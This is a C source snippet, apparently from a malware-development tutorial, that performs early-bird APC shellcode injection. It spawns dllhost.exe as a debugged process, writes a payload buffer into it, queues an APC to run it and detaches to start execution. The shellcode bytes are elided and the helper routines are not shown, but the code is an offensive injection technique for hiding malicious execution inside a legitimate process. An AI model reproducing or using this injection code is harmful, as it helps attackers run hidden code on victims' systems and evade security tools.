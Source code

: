 ```c
#define TARGET_PROCESS		"dllhost.exe"
unsigned char Payload[] = {...}

int main() {

	HANDLE		hProcess = NULL,
						hThread = NULL;

	DWORD		dwProcessId = NULL;

	PVOID		pAddress = NULL;

	//	creating target remote process (in debugged state)
	printf("[i] Creating \"%s\" Process As A Debugged Process ... ", TARGET_PROCESS);
	if (!CreateSuspendedProcess(TARGET_PROCESS, &dwProcessId, &hProcess, &hThread)) {
		return -1;
	}
	printf("\t[i] Target Process Created With Pid : %d \n", dwProcessId);
	printf("[+] DONE \n\n");

	// injecting the payload and getting the base address of it
	printf("[i] Writing Shellcode To The Target Process ... ");
	if (!InjectShellcodeToRemoteProcess(hProcess, Payload, sizeof(Payload), &pAddress)) {
		return -1;
	}
	printf("[+] DONE \n\n");

	//	running QueueUserAPC
	QueueUserAPC((PTHREAD_START_ROUTINE)pAddress, hThread, NULL);

	printf("[#] Press <Enter> To Run Shellcode ... ");
	getchar();

	//	since 'CreateSuspendedProcess' create a process in debug mode,
	//	we need to 'Detach' to resume execution; we do using `DebugActiveProcessStop`   
	printf("[i] Detaching The Target Process ... ");
	DebugActiveProcessStop(dwProcessId);
	printf("[+] DONE \n\n");

	printf("[#] Press <Enter> To Quit ... ");
	getchar();
	CloseHandle(hProcess);
	CloseHandle(hThread);

	return 0;
}
```
